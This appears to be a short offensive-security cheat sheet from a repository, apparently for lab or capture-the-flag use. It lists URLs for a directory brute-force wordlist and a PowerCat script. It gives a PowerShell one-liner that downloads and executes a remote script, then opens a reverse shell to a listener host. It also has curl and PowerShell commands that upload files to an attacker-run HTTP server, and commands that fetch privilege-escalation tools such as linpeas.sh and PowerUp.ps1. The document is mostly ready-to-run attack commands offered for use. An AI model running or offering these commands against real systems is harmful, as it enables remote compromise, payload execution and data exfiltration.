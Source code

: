 # Cybersecurity Tools and Files
# Dictionaries
Web Directory Brute Force - Big.txt
```
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/big.txt
```
# PowerCat
```
https://raw.githubusercontent.com/voidascent/sec/main/powercat.ps1
```
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/powercat.ps1');powercat -c 192.168.1.10 -p 9999 -e powershell
```
# HTTP Server for Upload and Download
```bash
https://raw.githubusercontent.com/voidascent/sec/main/httpserver.py
```
Usage
```bash
python3 httpserver.py # Default Port 8000
python3 httpserver.py -p 8888 # Running on Port to 8888
```
Curl (Linux and Windows cmd)
Curl Upload
```
curl -F 'file=@/home/ubuntu/Desktop/flag.txt' http://192.168.10.10:8000/
```
Curl Download
```
curl -O http://192.168.10.10:8000/download/linpeas.sh
```
PowerShell (Supported in PowerShell 3.0 and later)
PowerShell Upload
```
$FilePath = "C:\Users\Administrator\Desktop\flag.txt"; $Url = "http://192.168.10.10:8000/"; Add-Type -AssemblyName System.Net.Http; $client = New-Object System.Net.Http.HttpClient; $content = New-Object System.Net.Http.MultipartFormDataContent; $fileStream = [System.IO.File]::OpenRead($FilePath); $fileContent = New-Object System.Net.Http.StreamContent($fileStream); $content.Add($fileContent, "file", [System.IO.Path]::GetFileName($FilePath)); $result = $client.PostAsync($Url, $content).Result; $result.Content.ReadAsStringAsync().Result
```
PowerShell Download
```
Invoke-WebRequest -Uri "http://192.168.10.10:8000/download/PowerUp.ps1" -OutFile "C:\Users\Administrator\Desktop\PowerUp.ps1"
```
